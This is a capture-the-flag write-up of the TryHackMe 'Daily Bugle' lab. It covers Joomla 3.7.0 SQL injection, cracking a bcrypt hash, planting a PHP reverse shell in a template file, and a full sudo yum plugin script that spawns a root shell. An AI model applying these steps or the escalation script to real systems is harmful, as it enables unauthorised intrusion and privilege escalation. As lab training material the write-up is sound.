 ```yaml
---
title: "TryHackMe - Daily Bugle"
author: Nasrallah
description: ""
date: 2023-06-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, hard, sqli, sudo, joomla]
img_path: /assets/img/tryhackme/dailybugle
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Daily Bugle](https://tryhackme.com/room/dailybugle) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.152.170
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68ed7b197fed14e618986dc58830aae9 (RSA)
|   256 5cd682dab219e33799fb96820870ee9d (ECDSA)
|_  256 d2a975cf2f1ef5444f0b13c20fd737cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

```

We found ssh on port 22, an Apache web server on port 80 with a robots.txt file that reveals multiple directories and the CMS used is Joomla.

## Web

Let's navigate to the web page.

![](1.png)

Since we know this is Joomla, let's run [joomscan](https://github.com/OWASP/joomscan).

![](2.png)

The version we found is `3.7.0`, let's see if it has any vulnerabilities.

```bash
$ searchsploit joomla 3.7                           
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                                                                                                 | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                  | php/webapps/42033.txt
```

It's vulnerable to sql injection.

I used this [exploit](https://github.com/teranpeterson/Joomblah) that worked very well.

![](3.png)

We got a username and a hash.

Let's use `hashcat` to crack the hash.

```bash
$ hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt                                                                                          1 ⨯
hashcat (v6.1.1) starting.

$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:<REDACTED>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p...BtZutm
Time.Started.....: Tue Jun 20 12:02:35 2023 (21 mins, 37 secs)
Time.Estimated...: Tue Jun 20 12:24:12 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       36 H/s (3.13ms) @ Accel:8 Loops:4 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 46848/14344385 (0.33%)
Rejected.........: 0/46848 (0.00%)
Restore.Point....: 46816/14344385 (0.33%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
Candidates.#1....: talisay -> smokers

```

Great! We got the password, now let' login.

![](4.png)

# **Foothold**

To get a shell, we go to Templates and select `protostar`.

![](5.png)

Now we choose a php file `error.php` for example and replace to php code with a [reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php).

![](6.png)

Now we setup a listener and request the file at `http://targetIP/templates/protostar/error.php`

![](7.png)

We got a shell!


# **Privilege Escalation**

Let's run `linpeas`

![](8.png)

We found a password.

Let's switch to the only user on the machine.

![](9.png)

Great! Now let's check our privileges.

```bash
[jjameson@dailybugle home]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```

We can run `yum` as root.

Searching for ways to exploit that on GTFOBins we find a way to spawn interactive root shell by loading a custom plugin using the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

![](10.png)

We got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
